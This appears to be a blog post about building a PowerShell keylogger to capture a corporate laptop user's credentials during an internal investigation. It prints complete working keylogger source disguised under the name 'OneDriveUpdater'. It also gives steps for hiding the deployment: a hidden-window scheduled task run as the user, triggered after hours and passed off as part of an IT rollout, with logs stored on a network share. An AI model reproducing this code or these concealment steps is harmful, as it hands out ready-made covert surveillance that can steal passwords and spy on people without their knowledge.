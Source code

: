 ```yaml
---
title: "Practical Application of Keylogger for Incident Response"
date: 2018-08-25
url: "/keylogger-practical-application-for-ir"
tags: ["powershell", "keylogger", "windows", "security", "incident-response", "system-administration", "scripting"]
summary: "A walkthrough of evaluating and implementing different PowerShell keylogger options for an cyber investigation, including testing simple keyloggers, PowerSploit, Nishang, and customizing a solution based on Shima's keylogger."
---
```


## Background

As part of a recent internal investigation, we identified a need for a keylogger to grab some creds off a corporate laptop. After getting the necessary approvals lined up and documented, I started looking into how we might potentially do this.

This isn't a standard pentest/offensivesec engagement where we needed to gain access first, since we already had local admin as part of standard sysadmin access. So we jumped straight into "exploit development". Did a quick Google of keyloggers and found the usual candidates. Powershell would work for us in this scenario since we controlled antivirus and script execution settings, so we proceeded down this path.

Googlefu yielded several candidates, and I'll talk through the rationale / evolution of what happened for us with the four Powershell keyloggers we used: simple keylogger, Powersploit, Nishang, and Shima's.

## Possible Solutions

### simple keylogger

[https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277](https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277)

I initially found this keylogger as the fourth hit on Google. After quickly reviewing the code and getting familiar, this seemed like it would work for us. I particularly liked the fact this had 1) documented coded (yay) and 2) had good hooks for debugging (console writes, opening file at the end). Gave a good structure to quickly iterate through.

I'll speak later about our deployment, but the main challenge with this script was the fidelity of results that it returned. In our test deployment, we observed that keypresses were being dropped and it generally gave inconsistent results. It improved as the \[cci\_powershell\]Start-Sleep -Milliseconds 40\[/cci\] timer was reduced, but Powershell CPU usage went way up (at value=1, CPU util=25%). That'd be super noticable (cue fan noise) and the accuracy of keystroke capture still wasn't high enough. So we dropped this and started looking for alternative measures.

### Powersploit's Get-Keystrokes.ps1

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-Keystrokes.ps1)

So that took me to Powersploit's Get-Keystrokes. I've used other Powersploit modules, but never this one so figured I'd give it a shot and it'd be a slam dunk. Did some quick modifications to suit our environment. But when executed, output was just the header "TypedKey","WindowTitle","Time" but no keys captured. I'm no Powershell expert, so after ~10 minutes of fiddling, decided I'd see if there were other options and return to this if I couldn't find another alternative.

### Nishang's Keylogger.ps1

[https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1)

Alright well if Powersploit isn't going to work, let's check out the nishang option. The persistence features and web based upload are pretty cool for pentest engagements, but not necessarily needed for this endeavor. Making the modifications to bring storage back internal seemed to be more intense, so after about 5 minutes on looking at this, went back to Google for something closer to endstate (because I'm lazy).

### Shima's Keylogger

[https://vacmf.org/2013/01/23/powershell-keylogger/](https://vacmf.org/2013/01/23/powershell-keylogger/)

So then stumbled upon Shima's keylogger. This was succinct enough that it would do the trick! Testing this quickly showed promise, but the output file listed each character on its own line. Since English is left to right readstyle, and I really didn't want to write another script to post-process this file, I looked at options of fixing this. Output was based on:

```powershell
Out-File -FilePath $logfile -Encoding Unicode -Append -InputObject $mychar.ToString()
```

and there's a great argument `-NoNewline` that looked promising from [Powershell docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/out-file?view=powershell-6). Whipped that together and deployed on the test box, but quickly was back to the drawing board because this argument is a Powershell 5.0 feature, and the target was still on 2.0.

So to get around this, I figured let's just build a string buffer with the inputs and write whenever we get an enter. A bit hacky, but should work fine and writing the buffer upon carriage return to the output file will suit our needs. Not being a Powershell guru, took some time to finally identify how to flag a carriage return with the converted keystate, but after consulting an [Ascii table](https://ss64.com/ascii.html) and testing 10 (line feed) and 13 (carriage return), we had a winner. So final code looked like this:

```powershell
function OneDriveUpdater {
    $logfile = "$env:temp\key.log"
    $MAPVK_VK_TO_VSC = 0x00
    $MAPVK_VSC_TO_VK = 0x01
    $MAPVK_VK_TO_CHAR = 0x02
    $MAPVK_VSC_TO_VK_EX = 0x03
    $MAPVK_VK_TO_VSC_EX = 0x04

    $virtualkc_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]
    public static extern short GetAsyncKeyState(int virtualKeyCode);
'@

    $kbstate_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int GetKeyboardState(byte[] keystate);
'@

    $mapchar_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MapVirtualKey(uint uCode, int uMapType);
'@

    $tounicode_sig = @'
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@

    $getKState = Add-Type -MemberDefinition $virtualkc_sig -name "Win32GetState" -namespace Win32Functions -passThru
    $getKBState = Add-Type -MemberDefinition $kbstate_sig -name "Win32MyGetKeyboardState" -namespace Win32Functions -passThru
    $getKey = Add-Type -MemberDefinition $mapchar_sig -name "Win32MyMapVirtualKey" -namespace Win32Functions -passThru
    $getUnicode = Add-Type -MemberDefinition $tounicode_sig -name "Win32MyToUnicode" -namespace Win32Functions -passThru

    $bufferString = ""
    while ($true) {
        Start-Sleep -Milliseconds 40
        $validator = ""

        for ($char = 1; $char -le 254; $char++) {
            $vkey = $char
            $validator = $getKState::GetAsyncKeyState($vkey)

            if ($validator -eq -32767) {
                $l_shift = $getKState::GetAsyncKeyState(160)
                $r_shift = $getKState::GetAsyncKeyState(161)
                $caps_lock = [console]::CapsLock

                $scancode = $getKey::MapVirtualKey($vkey, $MAPVK_VSC_TO_VK_EX)

                $kbstate = New-Object Byte[] 256
                $checkkbstate = $getKBState::GetKeyboardState($kbstate)

                $mychar = New-Object -TypeName "System.Text.StringBuilder"
                $unicode_res = $getUnicode::ToUnicode($vkey, $scancode, $kbstate, $mychar, $mychar.Capacity, 0)

                if ($unicode_res -gt 0) {
                    if ($mychar.ToString() -eq "`r") {
                        #debugging write output in case of error
                        Out-File -FilePath $logfile -Encoding Unicode -Append -InputObject $bufferString.ToString()
                        $bufferString = ""
                    } else {
                        $bufferString = $bufferString + $mychar
                    }
                }
            }
        }
    }
}

OneDriveUpdater

```

## Deployment

For the deployment mechanism, we decided upon a scheduled task because we could connect to the endpoint remotely and we had local admin. So just pop open Scheduled Tasks, connect to endpoint remotely:

![Windows Task Scheduler - Create Basic Task window showing task name and description fields](images/2018-09-23_16-59-58.jpg)

![Windows Task Scheduler - Create Basic Task window showing additional configuration options](images/2018-09-23_17-00-12.jpg)

Create a task, and this is important, make sure to run it as the user. The script has to be run in the user's context, otherwise you'll get nothing.

![Windows Task Scheduler - Create Basic Task window showing task name and description fields](images/2018-09-23_17-03-37.jpg)
Then another thing to note is the Action, we'll kick powershell.exe but adding the flag `-WindowStyle Hidden`, which will result in a quick flicker of a powershell window but will quickly disappear. So either kick it off when the user isn't around (afterhours) or make it a plausible looking script. We hijacked a current IT rollout to masquerade the script so it didn't arouse too much suspicion.

![Windows Task Scheduler - New Action window showing PowerShell command configuration](images/2018-09-23_17-04-22.jpg)

The rest of the options are up to you: triggers, job ending/repeating, etc. We went with time kickoff in this particular example.

One final note is that we went with a network share location to store the files, a local filer that did the trick. Helps avoid the storage issue if the files get too large, and one less connection into the target's box.

### Conclusion

So that's about a wrap. Was a useful exercise for us, got me more familiar with keylogger options on the cheap, since we don't own a product that would do this for us.  And I wasn't really in the mood to download an _insert nation-state here_ backdoored keylogger. Anyway, hope this helped. Enjoy
